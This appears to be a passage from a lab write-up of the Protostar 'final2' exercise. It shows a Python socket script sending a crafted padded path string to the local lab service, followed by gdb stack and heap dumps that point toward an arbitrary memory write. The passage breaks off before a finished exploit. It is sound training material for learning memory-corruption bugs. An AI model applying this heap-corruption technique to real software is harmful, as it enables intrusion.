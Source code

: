 now the proccess is waiting for input

let's write a quick python script and using sockets to interact the proc

```python
import socket

s = socket.socket(socket.AF_INET)
s.connect(('127.1', 2993))
```
this creates a socket that we can use to send and recive data.

construct a basic string that will our if's, send it, execute our script and check gdb

```python
m = "FSRD/0000ROOT/1111"
# pad m to 128 bytes
m += "A" * (128 - (len(m)))
s.send(m)
```

we hit the break point
```
Breakpoint 1, 0x0804bd40 in check_path (
    buf=0x804e00c "/0000ROOT/1111", 'A' <repeats 110 times>)
    at final2/final2.c:27
27      final2/final2.c: No such file or directory.
        in final2/final2.c
```

and if we examin the stack
```
(gdb) x/3wx $esp
0xbffff850:     0x0804e00c      0x0804e015      0x00000073
(gdb) x/s 0x0804e00c
0x804e00c:       "/0000ROOT/1111", 'A' <repeats 110 times>
(gdb) x/s 0x0804e015
0x804e015:       "/1111", 'A' <repeats 110 times>
(gdb)
```
and this is our heap 
*you can get heap addr with 'info proc mappings'*
```
(gdb) x/64wx 0x804e000
0x804e000:      0x00000000      0x00000089      0x44525346      0x3030302f
0x804e010:      0x4f4f5230      0x31312f54      0x41413131      0x41414141
0x804e020:      0x41414141      0x41414141      0x41414141      0x41414141
0x804e030:      0x41414141      0x41414141      0x41414141      0x41414141
0x804e040:      0x41414141      0x41414141      0x41414141      0x41414141
0x804e050:      0x41414141      0x41414141      0x41414141      0x41414141
0x804e060:      0x41414141      0x41414141      0x41414141      0x41414141
0x804e070:      0x41414141      0x41414141      0x41414141      0x41414141
0x804e080:      0x41414141      0x41414141      0x00000000      0x00000f79
0x804e090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0e0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0f0:      0x00000000      0x00000000      0x00000000      0x00000000
```
so if we can controll where 'start' points we can write any where in memory
let's talk an another look at 'check_path' code
